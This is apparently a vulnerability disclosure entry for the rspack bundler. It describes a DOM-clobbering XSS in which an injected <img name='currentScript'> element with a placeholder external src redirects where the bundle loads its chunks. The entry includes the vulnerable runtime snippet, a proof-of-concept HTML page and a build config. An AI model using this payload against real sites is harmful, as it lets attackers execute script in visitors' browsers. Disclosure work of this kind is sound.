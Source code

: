 ## rspack

### Meta

+ Library: rspack
+ Stars: 8.6K
+ Version: v1.0.0-rc.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: None

### Library

URL: Self hosted

### Vulnerable Code Snippet

`crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js`
```javascript
(()=>{
        t.g.importScripts && (e = t.g.location + "");
        var e, r = t.g.document;
        if (!e && r && (r.currentScript && (e = r.currentScript.src),
        !e)) {
            var n = r.getElementsByTagName("script");
            if (n.length) {
                for (var o = n.length - 1; o > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[o--].src
            }
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        e = e.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/"),
        t.p = e
    }
    )()
```

## PoC

```
<!doctype html>
  <html lang="en"><head><meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width,initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root"><img name="currentScript" src="https://xxx.xxx.xxx">
  <script defer src="./dist/main.bundle.js"></script>
  </div>
</body>
</html>
```

The `rspack.config.js` to generate the bundle can be found below. 

```
const rspack = require('@rspack/core');
const path = require('path');
/** @type {import('@rspack/cli').Configuration} */
module.exports = {
  entry: {
    main: './src/index.js',
  },
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].bundle.js',
    chunkFilename: '[id].bundle.js',
    publicPath: 'auto',
  },
  plugins: [
    new rspack.HtmlRspackPlugin({
      template: './poc.html',
    }),
  ],
  optimization: {
    splitChunks: {
      chunks: 'all',
    },
  },
};
```
